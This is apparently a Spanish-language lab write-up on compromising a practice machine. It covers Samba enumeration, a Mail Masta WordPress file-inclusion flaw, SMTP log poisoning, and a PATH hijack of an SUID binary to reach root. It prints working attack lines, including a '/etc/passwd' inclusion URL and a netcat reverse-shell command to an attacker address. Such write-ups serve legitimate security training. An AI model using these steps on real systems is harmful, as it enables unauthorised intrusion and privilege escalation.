# Análisis y Explotación de Vulnerabilidad en PC2
Se llevó a cabo un escaneo con Nessus sobre el host 10.10.10.5, revelando múltiples vulnerabilidades explotables. Como parte del análisis, se utilizó Nmap para obtener un mapa de los servicios activos en el sistema objetivo:


El escaneo identificó un servicio Samba accesible, lo que motivó el uso de enum4linux para recolectar información adicional sobre posibles recursos compartidos.



El resultado mostró que existen al menos dos cuentas:  
- anonymous 
- helios. 

Se intentó el acceso a los recursos compartidos de ambas cuentas utilizando la utilidad smbclient.


Se logró acceder mediante el usuario anonymous, ya que la cuenta helios requería autenticación.



Dentro del recurso compartido se localizó un archivo de texto, el cual fue copiado al sistema atacante para su análisis.


El archivo contenía tres posibles contraseñas, que se probaron manualmente con la cuenta helios.




Una de las credenciales resultó válida, permitiendo el acceso al recurso protegido. Se descargaron dos archivos de texto adicionales, cuyo contenido está pendiente de revisión detallada.




Uno de los archivos recuperados desde el recurso compartido contenía una ruta que parecía corresponder a un sitio web. Dado que el host tenía expuesto el puerto 80, se accedió al servidor HTTP.



El contenido reveló una instalación de WordPress. Se intentó una enumeración de directorios, sin hallazgos relevantes. Para continuar con la recolección de información, se ejecutó un escaneo con WPScan, enfocado en detectar vulnerabilidades conocidas en la versión instalada.


El análisis identificó múltiples vulnerabilidades asociadas a la versión de WordPress detectada. Aunque se exploraron distintos vectores de explotación, la mayoría requería autenticación con privilegios administrativos, lo que restringía su aplicabilidad en esta fase.

Tras varios intentos sin éxito, se decidió inspeccionar directamente los plugins instalados. En el contenido del sitio, específicamente en la ruta http://10.10.10.5/h3l105/, se observaron referencias a recursos alojados en wp-content/plugins/, lo que permitió identificar de forma explícita la existencia del plugin Mail Masta.


Este hallazgo proporcionó una vía viable para la explotación mediante una vulnerabilidad conocida de inclusión de archivos locales (LFI), asociada a este plugin. Se procedió con su validación y explotación en etapas posteriores.


Realizando una búsqueda rápida se identificó una vulnerabilidad documentada en [Exploit-DB 40290](https://www.exploit-db.com/exploits/40290), que afecta al plugin Mail Masta v1.0. y como podemos explotar esta vulnerabilidad.




```bash
http://10.10.10.5/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```


## Explotación del Servicio SMTP

Aqui podemos ver una guia de como funciona telnet [Guia Telnet](https://www.shellhacks.com/send-email-smtp-server-command-line/)


Se estableció conexión con el servidor SMTP del host 10.10.10.5 a través del puerto 25 utilizando telnet. Durante la sesión, se simuló el envío de un correo al usuario helios, inyectando en el cuerpo del mensaje el siguiente fragmento de código PHP:



Ahora con log del SMPT injectado o `envenenamiento de log`. Procederemos a ejecutar el comando `id` para probar si funciono el envenenamiento de log.

```bash
symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/
count_of_send.php?pl=/var/mail/helios&comando=id
```


Al revisar la página web, se evidencia el `id` del usuario o es decir se ejecutó correctamente el comando `id`.


## Levantar una Shell a nuestra Maquina

Ahora que vemos que funncioa bien la linea de comados podemos levantar una shell en la url con este comando:

```bash
symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&comando=nc -e /bin/sh 10.10.10.7 1234
```

Nos ponemos en escucha con Netcat en nuestra maquina atacante:


## Escalada de privilegios

Procedemos a buscar binarios con el flag SUID. Para ello utilizamos el comando:

`find / -perm -4000 -type f 2>/dev/null`
Explicación:

- perm -4000: busca archivos con el bit SUID.

- type f: solo archivos (no directorios).

- 2>/dev/null: ignora errores de permisos.



Los binarios `/usr/bin/passwd, /bin/su, /bin/mount, /bin/ping`, etc., son normales en sistemas Linux.

Pero destaca `/opt/statuscheck`, porque no es un binario estándar del sistema.



Al analizar los strings de este programa, se identifica que internamente hace el llamado al comando CURL, lo cual nos da la idea que podemos falsear el binario para así llamar al /opt/statuscheck con un PATH modificado


Para falsear el binario, en nuestra carpeta /tmp, creamos un archivo “curl” cuyo contenido sea la llamada a la shell /bin/sh. Luego le agregamos los permisos de ejecución y alteramos el entorno del PATH con el /tmp. Luego se ejecuta el binario /opt/statuscheck el cual usará el PATH modificado.


```bash
cd /tmp
echo "/bin/sh" > curl
chmod 777 curl
echo $PATH
export PATH=/tmp:$PATH
/opt/statuscheck
```


La ejecución exitosa otorgó una shell como usuario root, completando la explotación de la máquina.